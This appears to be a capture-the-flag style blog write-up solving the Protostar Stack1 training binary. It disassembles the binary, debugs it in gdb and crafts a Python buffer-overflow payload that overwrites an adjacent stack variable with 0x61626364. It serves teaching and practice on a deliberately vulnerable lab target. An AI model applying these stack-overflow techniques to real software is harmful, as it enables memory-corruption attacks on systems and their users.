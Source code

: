 ```yaml
---
title: Protostar - Stack 1
date: 2024-02-14 10:30:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack1]
---
```


## Conquering Stack1 at Protostar Machine

- Hello  , Today we will run [Protostar](https://exploit.education/protostar) machine and conquer the [Stack1](https://exploit.education/protostar/stack-one/) binary.

- This challenge requiring us to perform a stack overflow and override the next value in the buffer with specific value as we see later.

### **Challenge Overview**
- **Challenge Name:** [Stack1](https://exploit.education/protostar/stack-one/)
- **Machine:** [Protostar](https://exploit.education/protostar)

### Step 1: Explore Binary

let,s run stack1 binary and see it,s behavoior

![stack1 run](/assets/img/protostar/stack1-explore.png)

- We Found that the binary need an argument to work and after we run it with argument it run
- Take notice of that .

### Step 2: Analysis

Disassemble stack1 binary

we can disassemble stack1 binary by `objdump`

```sh
objdump -M intel -d /opt/protostar/bin/stack1 | grep main -A 32
```
so let,s break this command line :
- `-M` stands for `--disassembler-options` i want `intel` syntax instead of `at&t`
- `-d` stand for `--disassemble`
- we grep `main` from the disassembled output because `main` as we know is the entrypoint for any `C` program and first function executed from it.

objdump output:

![Stack1 Objdump](/assets/img/protostar/stack1-objdump.png)
    
Analysis:

Let,s break the output code from objdump:

1. Function Prologue:

- `push ebp`  save the base pointer.
- `mov ebp, esp`  set up new base pointer.
- `and esp, 0xfffffff0` align the stack.
- `sub esp, 0x60` allocate space for local variables.

2. Conditional Check:

- `cmp DWORD PTR [ebp+0x8],0x1`  compare the value at `[ebp+0x8]` with `0x1`.
- `jne 8048487 <main+0x23>` jump to `0x08048487` if the comparison is not equal.

3. Branches:

 if the condition is not true , the program jumps to `0x08048487`, else , it continues with the next instructions.

4. Function Calls And Memory Operations:

- `call 8048388 <errx@plt>` calls the `errx` function.
- `call 8048368 <strcpy@plt>` calls the `strcpy` function.
- `call 8048378 <printf@plt>` calls the `printf` function.

5. Memory Comparisons:

- `mov eax,DWORD PTR [esp+0x5c]` move value at pointer `esp+0x5c` and store it in `eax`
- `cmp eax, 0x61626364`: Compare the value in `eax` with `0x61626364`.

6. Conditional Jumps:

- `jne 0x80484c0` <main+0x5c>: Jump to `0x080484c0` if the comparison is not equal.
- `jmp 0x80484d5` <main+0x71>: Jump to `0x080484d5` unconditionally.

7. Function Epilogue:

- `leave` Restore the stack frame. it is short for `mov esp,ebp` and `pop ebp`
- `ret` Return from the function.

Now we understand the flow of program :

1. during run it first check argument provided and if no args provided it call errx with a error message which print it and exit 
2. argument provided will be copied to buffer
3. check if `[esp+0x5c]==0x61626364` then call puts,print then return and else call print only and return 

`[esp+0x5c]` is interesting , we need to check to it when debugging

### Step 3: Debugging


- first let,s write simple script for fuzz let,s call it `fuzz.py`

`~/fuzz.py` :

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```

- now let,s debug `stack1` binary useing `gdb`
```sh
gdb /opt/protostar/bin/stack1
```
now let,s disassemble main, and break point at mov eax,ptr dword[esp+0x5c]
```sh
set disassembly-flavor intel
disassemble main
```
![Stack1 on GDB](/assets/img/protostar/stack1-gdb-main.png)

now let,s breakpoint at `0x080484a7 <main+67>:	mov   eax,DWORD PTR [esp+0x5c]` to get value at pointer `esp+0x5c` 
```sh
break *0x080484a7
```

now let,s run our program `stack1` with argument that contain our fuzzing value
```sh
run $(python ~/fuzz.py)
```

![Stack1 on gdb final](/assets/img/protostar/stack1-gdb-final.png)

we can see value at pointer at `esp+0x5c` with :

```sh
x/wx $esp+0x5c
```

when we get value at pointer at $esp+0x5c we found it = `0x51515151`

let,s get the ascii value of `0x51`

![Python chr(0x51)=Q](/assets/img/protostar/python-chr-51h.png)

so `0x51515151` represent `QQQQ` and  we need to make `esp+0x5c` = `0x61626364` to make the cmp instruction work truthy


### Step 4: Craft Solution 

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x64\x63\x62\x61" # represent 0x61626364 on little endian machines
print(fuzz+esp_plus_5c)
```

now run `stack1` binary with our crafted solution:

```sh
/opt/protostar/bin/stack1 $(python ~/fuzz.py)
```

and it Works ! 
![Stack1 Solved](/assets/img/protostar/stack1-solved.png)

